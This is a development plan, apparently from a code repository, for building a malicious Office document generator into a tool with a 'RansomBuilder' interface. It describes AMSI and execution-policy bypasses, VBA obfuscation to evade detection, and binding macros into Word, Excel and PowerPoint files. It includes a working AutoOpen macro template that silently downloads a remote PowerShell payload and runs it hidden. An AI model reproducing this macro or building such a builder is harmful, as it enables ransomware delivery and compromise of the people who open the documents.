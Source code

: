 # ARC Platform: Macro-based Payload Delivery Integration Plan

## Overview
This document outlines the plan to integrate VBA macro-based payload delivery into the ARC platform, enabling users to generate malicious Office documents that deliver PS1 payloads.

## Components

### 1. VBA Macro Generator
- **Purpose**: Generate VBA macros that execute PS1 payloads
- **Features**:
  - Multiple delivery methods (direct download, document comments, etc.)
  - Built-in AMSI bypass techniques
  - Execution policy bypass
  - Obfuscation support

### 2. vba-macro-obfuscator Integration
- **Location**: `/vba-macro-obfuscator/`
- **Purpose**: Obfuscate generated VBA code to evade detection
- **Implementation**: Python script execution from Node.js backend

### 3. Document Binder
- **Purpose**: Inject obfuscated VBA into Office documents
- **Supported Formats**:
  - Word (.docm)
  - Excel (.xlsm)
  - PowerPoint (.pptm)

## Integration Steps

### Phase 1: Backend Development
1. **Macro Generation Module**
   - Create `macro-builder.js` service
   - Implement templates for different macro types
   - Add PS1 payload integration

2. **Obfuscation Service**
   - Create wrapper for `vba-macro-obfuscator`
   - Add error handling and logging
   - Implement caching for performance

3. **Document Binding**
   - Research and implement document manipulation
   - Support for multiple Office formats
   - Template management system

### Phase 2: Frontend Development
1. **UI Components**
   - Add "Macro Delivery" section to RansomBuilder
   - Document template selection
   - Obfuscation options
   - Preview functionality

2. **API Endpoints**
   - `/api/macro/generate` - Generate macro code
   - `/api/macro/obfuscate` - Obfuscate VBA code
   - `/api/document/bind` - Bind macro to document

## Technical Details

### VBA Macro Templates
```vba
' Template 1: Direct Download
Sub AutoOpen()
    Dim payloadUrl As String
    payloadUrl = "{{PAYLOAD_URL}}"
    
    Dim cmd As String
    cmd = "powershell -ExecutionPolicy Bypass -WindowStyle Hidden -Command ""(New-Object System.Net.WebClient).DownloadFile('" & payloadUrl & "', '$env:TEMP\payload.ps1'); Start-Process 'powershell' -ArgumentList '-ExecutionPolicy Bypass -WindowStyle Hidden -File """"$env:TEMP\payload.ps1""""'"""
    
    CreateObject("WScript.Shell").Run cmd, 0
End Sub
```

### Obfuscation Process
1. Generate clean VBA code
2. Pass through `vba-macro-obfuscator`
3. Validate obfuscated code
4. Inject into target document

### Document Structure
```
office-document/
├── [Content_Types].xml
├── _rels/
├── word/
│   ├── _rels/
│   ├── vbaProject.bin    # Contains VBA code
│   └── document.xml
└── vbaProject.bin.rels
```

## Next Steps
1. [ ] Set up development environment for VBA macro testing
2. [ ] Implement basic macro generation service
3. [ ] Integrate `vba-macro-obfuscator`
4. [ ] Develop document binding functionality
5. [ ] Create frontend components
6. [ ] Test with various Office versions
7. [ ] Document usage for ARC users

## Security Considerations
- Implement rate limiting on document generation
- Add malware scanning for uploaded templates
- Include warnings about responsible usage
- Consider legal implications of document generation

## Dependencies
- Node.js for backend services
- Python 3.x for `vba-macro-obfuscator`
- Office document manipulation libraries
- Testing framework for Office documents
